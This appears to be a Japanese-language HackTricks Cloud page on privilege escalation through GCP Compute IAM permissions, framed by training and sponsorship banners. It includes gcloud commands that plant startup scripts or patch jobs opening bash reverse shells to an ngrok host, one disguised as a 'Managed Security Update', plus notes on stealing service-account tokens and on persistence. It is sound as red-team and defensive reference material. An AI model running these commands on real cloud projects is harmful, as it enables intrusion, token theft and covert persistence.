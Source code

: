 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCPにおけるComputeとVPC（ネットワーク）に関する詳細情報は、以下を確認してください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要があるすべての特権昇格攻撃（新しいユーザーやSSHキーの追加など）を実行するには、**インスタンスに添付されたSAに対して`actAs`権限を持っている必要があります**。たとえSAがすでに添付されていてもです！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つことで、**インスタンス**の**メタデータ**情報を**変更**し、**ユーザーの認証キーを変更**したり、**sudo**権限を持つ**新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSHで接続し、そのインスタンスが実行しているGCPサービスアカウントを盗むことができます。\
制限事項：

* GCPサービスアカウントは、VMインスタンスでデフォルトで**非常に限られたスコープ**を持っています。
* ログインするために**SSH**サーバーに**接続できる必要があります**。

この権限を悪用する方法についての詳細は、以下を確認してください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しいスタートアップスクリプトを追加し、インスタンスを再起動することでこの攻撃を実行することもできます：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、**プロジェクト全体ではなく特定のインスタンスに対して前の権限と同じ特権を与えます**。**前のセクションと同じ脆弱性と制限が適用されます**。

### `compute.instances.setIamPolicy`

この種の権限は、**前の権限を持つ役割を自分に付与し、これを悪用して特権を昇格させることを可能にします**。

### **`compute.instances.osLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を使用して**`gcloud compute ssh [INSTANCE]`**を実行し、インスタンスに接続できます。インスタンス内では**root権限はありません**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を使用して**`gcloud compute ssh [INSTANCE]`**を実行し、インスタンスに接続できます。インスタンス内では**root権限があります**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**サービスアカウントが割り当てられた仮想マシンを作成し、メタデータにアクセスしてトークンを盗む**ことが可能です。これにより、特権を昇格させることができます。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限を持っている場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横移動し、プロジェクト内のすべてのコンピュートインスタンスでコード実行を得ることができます。

現在、インスタンスにアタッチされたSAに対して**`actAs`権限は必要ありません**。

これを手動で悪用したい場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **または** [**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**を作成する必要があります。**\
パッチジョブを実行するには： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントを展開するには：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) は、過去にこの誤設定を悪用するために使用されていました（しかし、現在は動作していません）。

**攻撃者はこれを持続性のために悪用することもできます。**

### `compute.machineImages.setIamPolicy`

**コンピュートイメージに対して追加の権限を付与します。**

### `compute.snapshots.setIamPolicy`

**ディスクスナップショットに対して追加の権限を付与します。**

### `compute.disks.setIamPolicy`

**ディスクに対して追加の権限を付与します。**

### アクセススコープのバイパス

このリンクをたどると、[**アクセススコープをバイパスするためのアイデア**](../)が見つかります。

### GCPコンピュートインスタンスにおけるローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
